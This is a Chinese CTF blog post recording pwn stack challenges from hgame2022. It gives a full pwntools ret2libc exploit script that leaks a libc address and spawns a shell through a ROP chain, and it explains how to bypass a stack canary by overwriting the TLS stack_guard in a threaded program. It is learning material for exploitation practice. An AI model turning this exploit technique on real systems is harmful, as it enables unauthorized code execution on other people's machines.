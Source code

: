 ```yaml
---
title: Pwn栈题记录
date: 2022-05-01 22:54:59 +0800
categories:
  - 漏洞利用总结
tags:
  - pwn
  - ctf
permalink: /posts/id=17/
pin: false
published:
---
```


## hgame2022 enter_the_pwn_land（特别溢出GDB调试）
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-322c75f0935f1a33.png)
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-1dd1d641b12467ef.png)
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-29400763b7f0fd72.png)
这里有个变量记录输入字节数，如果直接溢出会导致不能正常溢出而是一直累加，这里‘1’能绕过

```python
from pwn import *
context.log_level='debug'
rdi=0x0000000000401313
ret=0x000000000040101a
r=process('./1')
def pwn():
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
    elf=ELF('./1')
    # gdb.attach(r,"b *0x4011E4")
    pay=b'1'*(0x33)+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
    r.sendline(pay)
    r.recvuntil('\n')
    leak=u64(r.recv(6)+b'\x00'*2)-libc.sym['puts']
    print(hex(leak))
    sys=leak+libc.sym['system']
    sh=next(libc.search(b'/bin/sh'))+leak
    #gdb.attach(r,"b *0x4011E4")
    pay=b'1'*(0x33)+p64(rdi)+p64(sh)+p64(ret)+p64(sys)
    r.sendline(pay)

pwn()
r.interactive()
```
## enter_the_evil_pwn_land(多线程溢出绕过canary)
题目和上一题一样，但添加了canary
在使用pthread时，这个TLS会被定位到与线程的栈空间相接近的位置，所以如果输入的数据过长的话也可以把这里覆盖掉，就可以改掉stack_guard的值了。从而绕过金丝雀。
相关文章
[thread stack bypass canary和sixstar ctf babystack writeup | Sakuraのblog (eternalsakura13.com)](https://eternalsakura13.com/2018/04/24/starctf_babystack/)
[starctf2018 babystack (ble55ing.github.io)](https://ble55ing.github.io/2019/07/01/starctf2018-babystack/)
